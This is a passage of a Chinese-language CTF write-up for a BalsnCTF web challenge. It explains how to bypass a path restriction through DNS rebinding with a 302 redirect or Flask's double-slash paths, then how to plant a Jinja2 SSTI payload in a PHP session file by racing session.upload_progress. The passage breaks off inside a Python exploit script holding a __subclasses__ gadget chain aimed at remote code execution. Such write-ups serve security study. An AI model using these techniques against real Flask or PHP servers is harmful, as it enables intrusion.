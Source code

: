 <br>

這裡有兩種方法可以繞過這個限制

<br>

**Method 0x1**

使用 302 Redirect 繞過!

只需透過 DNS Rebinding，讓其訪問你自己 Server 的 IP

接著把 `/korea` 路徑，重導向到 `127.0.0.1:5000/error_page?err=...`

(因為 `file_get_contents()` 是會 follow 302 重導向的)

<br>

**Method 0x2**

使用 Flask 的神奇特性繞過!

在 Flask app 中，`//korea/ping` 等同 `/ping`.

因此，使用 `//korea/error_page?err=....` 就能繞過限制

<br>

### Step 3

現在，我們能控制 `render_template_string()` 的內容，也相當於一個任意讀檔漏洞

但要做到 RCE，必須找一個能夠塞我們可控 Payload 的檔案

因為 Server 同時跑著 PHP，所以可以使用 `session.upload_progress` trick 來上傳 SSTI payload 到 session file 中

如果在 multipart POST data 中使用 `PHP_SESSION_UPLOAD_PROGRESS`，PHP 會直接啟用 Session (即便你沒有 `session_start()`)

(這裡的知識點，同 HITCON CTF 2018 - one line php challenge: [Link](https://blog.orange.tw/2018/10/hitcon-ctf-2018-one-line-php-challenge.html).)

(Note: 你的 payload 不能包含 `|`，因為這會破壞 PHP Session 的內容格式)

<br>

### Step 4

預設 `session.upload_progress.cleanup` 是 `On`，所以上傳的 SSTI payload 會在短時間被清空

OK! 讓我們去 Race condition 吧!

Exploit script:

```python
import sys
import string
import requests
from base64 import b64encode
from random import sample, randint
from multiprocessing.dummy import Pool as ThreadPool

HOST = 'http://koreanfish4.balsnctf.com/index.php'
sess_name = 'iamkaibro'

headers = {
    'Connection': 'close', 
    'Cookie': 'PHPSESSID=' + sess_name
}

payload = """
{% for c in []['__class__']['__base__']['__subclasses__']() %}
{% if c['__name__'] == 'catch_warnings' %}
{% for b in c['__init__']['__globals__']['values']() %}
```